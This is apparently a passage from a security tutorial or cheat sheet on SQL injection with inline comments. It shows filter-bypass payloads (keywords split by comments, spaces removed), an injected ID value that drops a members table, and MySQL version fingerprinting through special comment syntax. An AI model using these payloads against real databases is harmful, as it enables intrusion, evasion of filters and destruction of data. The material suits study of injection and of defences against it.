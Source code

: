 You can use inline comments to comment out the rest of a query as with line comments (by simply not closing the comment). They are also useful for manipulating characters to bypass filtering/blacklisting, remove spaces, and obfuscate queries. In MySQL, you can use its special comment syntax to detect the database and version.

Generic SQL comment syntax is:

- `/*Comment Here*/` (SMPOL)

Typical uses of inline comments:

- Obfuscation: `DROP/*comment*/sampletable`
- Breaking up a keyword to avoid filters: `DR/**/OP/*bypass blacklisting*/sampletable`
- Removing space characters: `SELECT/*avoid-spaces*/password/**/FROM/**/Members`

For MySQL only, you can use special comment syntax:

- `/*! MYSQL special comment format */` (M) 

This special comment syntax is perfect for detecting that MySQL is being used because any instructions you put in this comment will only execute in MySQL. You can even use this to detect the version. The following example will execute and generate an error only is the server uses MySQL in the specified version or later:

```sql
SELECT /*!80027 1/0, */ 1 FROM tablename
```

#### Classic inline comment SQL injection attack samples

- ID value: `10; DROP TABLE members /*`   
    Simply get rid of other stuff at the end the of query. Same as `10; DROP TABLE members --`
- `SELECT /*!**80027** 1/0, */ 1 FROM tablename`   
    Will throw an **division by 0 error** if MySQL version is higher than **8.0.27**

#### MySQL version detection sample attacks

- ID value: `/*!**80027** 10*/`
- ID value: `10`   
    You will get the **same response** if MySQL version is higher than **8.0.27**
- `SELECT /*!**80027** 1/0, */ 1 FROM tablename`   
    Will throw a **division by 0 error** if MySQL version is higher than **8.0.27**